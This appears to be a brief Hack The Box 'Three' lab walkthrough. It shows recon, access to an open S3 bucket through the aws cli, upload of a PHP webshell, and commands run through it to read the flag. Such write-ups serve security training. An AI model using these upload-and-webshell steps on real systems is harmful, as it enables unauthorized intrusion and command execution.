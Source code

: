 # HTB Starting Point Tier 1 - Three

- IP Provided - 10.129.180.49

## Recon and Discovery

- nmap found - 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
						  80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
- gobuster found - s3.thetopper.htb 
						 
## Analysis and Exploitation

- We go to the website and see that `thetoppers.htb` is mentioned in the contact section
- We add `<ip> thetopper.htb` to `/etc/hosts`
- We see that gobuster found a vhost `s3` and we add `s3.thetopper.htb` in `/etc/hosts` along side `thetopper.htb`
	- Tips: Use gobuster in vhost mode
- Going to `s3.thetopper.htb` we see `Status Running`
- We use aws cli command `aws s3 --endpoint=http://s3.thetoppers.htb ls s3://thetoppers.htb` to list the files
	- Tips: Doing it first will cause an error, run `aws configure` and put random values to complete the wizard
- We can see that we have access to files, we can upload files too
- We try to upload a webshell with `aws s3 --endpoint=http://s3.thetoppers.htb cp shell.php s3://thetoppers.htb`
	- You can find a php webshell in `payloadallthethings`, use `locate shell.php`
- Now by visiting `http://thetoppers.htb/shell.php?cmd=ls` we can see the contents of directory which mean our webshell works
- We try to `ls ../` we can see `flag.txt` 
- We use `cat ../flag.txt` to reveal the flag

## Difficulty - Very Easy

- Machine introduces s3 buckets, aws cli, insecure file upload and webshells
